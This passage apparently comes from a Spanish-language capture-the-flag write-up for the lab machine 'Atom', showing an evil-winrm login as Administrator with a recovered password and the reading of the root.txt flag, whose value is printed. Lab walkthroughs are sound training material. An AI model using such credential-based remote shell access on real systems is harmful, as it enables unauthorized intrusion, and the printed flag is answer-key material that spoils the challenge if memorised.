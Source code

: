 ```bash
❯ evil-winrm -i 10.10.10.237 -u 'Administrator' -p 'kidvscat_admin_@123'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
atom\administrator
```

Nos conectamos satisfactoriamente y ahora podemos dirigirnos al directorio personal del usuario `Administrator` y visualizar la segunda flag `root.txt`.


```cmd
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         8/10/2023   5:27 PM             34 root.txt


Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
f55c47e3b749e8ae956f980fba1dc782
```




